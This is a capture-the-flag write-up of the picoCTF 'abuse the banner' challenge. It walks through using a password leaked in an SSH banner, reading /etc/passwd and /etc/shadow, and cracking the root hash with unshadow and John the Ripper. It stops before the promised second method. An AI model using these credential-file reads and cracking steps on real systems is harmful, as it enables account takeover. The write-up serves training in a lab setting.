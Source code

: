 ## Challege reads as follow 

Can you abuse the banner?
The server has been leaking some crucial information on 
tethys.picoctf.net 57019. Use the leaked information to get to the server.

To connect to the running application use 
nc tethys.picoctf.net 61514. From the above information abuse the machine and find the flag in the /root directory.

## let's connect with first server and obtain the leaking information 

upon connecting with leaking server, we got the following credentials:

## nc ethys.picoctf.net 57019

SSH-2.0-OpenSSH_7.6p1 My_Passw@rd_@1234 

now connect with another server using the password , provided by leaking server : 

muneer1631-picoctf@webshell:~$ nc tethys.picoctf.net 54357
*************************************
**************WELCOME****************
*************************************

what is the password? 
My_Passw@rd_@1234

What is the top cyber security conference in the world?
DEF CON

the first hacker ever was known for phreaking(making free phone calls), who was it?
John Draper

player@challenge:~$ 

## Now we're in .............. 

## From here , I solved it in two ways. First as the questions suggests  the flag is in root folder. 
let's check the permission of flag.txt 

__________________________________________________________________________________

player@challenge:/root$ ls -la 

ls -la 

total 16

drwxr-xr-x 1 root root    6 Mar  9 16:39 .

drwxr-xr-x 1 root root   29 Apr 17 10:17 ..

-rw-r--r-- 1 root root 3106 Apr  9  2018 .bashrc

-rw-r--r-- 1 root root  148 Aug 17  2015 .profile

-rwx------ 1 root root   46 Mar  9 16:39 flag.txt
-rw-r--r-- 1 root root 1317 Feb  7 17:25 script.py
player@challenge:/root$  
____________________________________________________________________________________**

As we can see, it you need root Privileges to read the file . 
As I described above , I solved it in two ways. 

1. Crack the password of root  and enter as root to read the contents of the file 
2. use the Hint provided and following along the way to solve it. 

## Firstly am going to crack the password of root (First way)

read users ( cat /etc/passwd)  and copy the root username and save it into a text file. 
______________________________________________________________________________
player@challenge:/root$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
_______________________________________________________________________________**

Similary read the hash of passwords stored in /ect/shadow
player@challenge:~$ cat /etc/shadow
cat /etc/shadow
root:$6$6QFbdp2H$R0BGBJtG0DlGFx9H0AjuQNOhlcssBxApM.CjDEiNzfYkVeJRNy2d98SDURNebD5/l4Hu2yyVk.ePLNEg/56DV0:19791:0:99999:7:::
___________________________________________________________________________________________________________________________

Use "unshadow" tool which merges password and shadow files into one, typically for cracking passwords. As 
you saved the username of root and hash of password, Take help of "unshadow" commnad to merge both files.

unshadow name.txt password.txt > passwords.txt

Now , you've merged file named as passwords. 

## Did you hear about John ?
NO, "John the Ripper is a powerful password cracking tool often used for security testing and analysis."

Provide the path where John (Already Installed in Kali Linux) and the password file 
_____________________________________________________________________________________________
┌──(user㉿kali)-[~/Desktop]
└─$ john /usr/sbin/ password 
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 2 candidates buffered for the current salt, minimum 8 needed for performance.
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
*iloveyou         (root)*   
1g 0:00:00:01 DONE 2/3 (2024-04-16 21:07) 0.6211g/s 598.7p/s 598.7c/s 598.7C/s 123456..john
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
__________________________________________________________________________________________**

Oh , you did it buddy. "iloveyou" is the password of root. Switch to root and read the contents of the file. 

## let's go for another way (second approach to solve it)

I will continue it latter ................

